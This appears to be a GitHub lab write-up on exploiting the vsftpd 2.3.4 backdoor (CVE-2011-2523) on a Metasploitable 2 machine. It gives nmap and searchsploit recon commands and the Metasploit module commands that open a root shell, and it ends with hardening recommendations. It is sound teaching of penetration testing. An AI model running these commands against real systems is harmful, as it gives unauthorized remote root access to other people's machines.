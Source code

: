 # Exploitation of vsftpd 2.3.4 Backdoor (Metasploitable 2)

## 📌 Overview
This project documents the exploitation of the **vsftpd 2.3.4** service running on a vulnerable Metasploitable 2 machine.  
The service contains a **backdoor vulnerability (CVE-2011-2523)** that allows **unauthenticated remote code execution** and grants a **root shell** on the target.

---

## 🔍 1. Reconnaissance & Target Analysis

We begin with an **Nmap scan** to identify open ports and running services:

```bash
nmap -sV -O 192.168.1.6
```

### Result:
![Nmap Scan](./Screenshot%202025-07-22%20154954.png)

- FTP (21/tcp) → **vsftpd 2.3.4**
- SSH (22/tcp) → OpenSSH 4.7p1
- Telnet (23/tcp), SMTP (25/tcp), DNS (53/tcp), HTTP (80/tcp), RPC, Samba, etc.

📌 The most critical finding: **vsftpd 2.3.4**, known for a malicious backdoor.

---

## ⚡ 2. Vulnerability Identification

### Searchsploit
We search for exploits related to `vsftpd`:

```bash
searchsploit vsftpd
```

![Searchsploit Results](./Screenshot%202025-07-22%20155036.png)

- Found exploit: `vsftpd 2.3.4 - Backdoor Command Execution`  
- Path: `unix/remote/17491.rb`

### Metasploit Module
Inside `msfconsole`:

```bash
search vsftpd
```

![Metasploit Module Search](./Screenshot%202025-07-22%20160110.png)

- `exploit/unix/ftp/vsftpd_234_backdoor` → Rank: Excellent

**CVE ID:** [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)  
**CVSS Score:** 10.0 (Critical)  
**Type:** Remote Code Execution via Backdoor

---

## 💣 3. Exploitation

### Using Metasploit
We load the exploit and set the target host:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.6
exploit
```

![Metasploit Exploit Execution](./Screenshot%202025-07-22%20160211.png)

- Exploit triggered successfully.
- Shell opened as **root**.

---

## 🛠 4. Post-Exploitation

We now verify system access and privileges:

```bash
id
uid=0(root) gid=0(root)
```

```bash
sudo -l
```

![Post Exploitation Root Access](./Screenshot%202025-07-22%20160249.png)

- Root privileges confirmed.  
- Complete control of the system achieved.  

---

## 🛡 5. Recommendations

1. **Remove/Upgrade vsftpd 2.3.4**  
   Replace with a patched version or disable FTP if not required.

2. **Use Secure Alternatives**  
   Prefer **SFTP (over SSH)** or **FTPS (TLS/SSL)**.

3. **Restrict Access**  
   Limit port `21` access to trusted IPs via firewall rules.

4. **Patch Management**  
   Regularly update services (SSH, Apache, Samba, etc.).

5. **Harden Configurations**  
   - Disable anonymous logins.  
   - Enforce strong password policies.  
   - Minimize exposed services.  

6. **Deploy IDS/IPS**  
   Detect unusual shell sessions or port activity.

7. **Vulnerability Scanning**  
   Use **Nessus/OpenVAS** for proactive assessments.

---

## 📽 Video Demonstration
- [Reconnaissance & Target Analysis](https://youtu.be/vQekjfnPsOU)  
- [Exploitation Walkthrough](https://youtu.be/2gm2FEWfxRs?si=qUpHkyL869MiMjo8)  

---

## ✅ Conclusion
This penetration test successfully exploited **vsftpd 2.3.4** via a **backdoor vulnerability (CVE-2011-2523)**, granting remote root access.  

The exploit required minimal effort, demonstrating the **severe risks of outdated software**.  
Mitigations include **patching, service hardening, and continuous monitoring**.
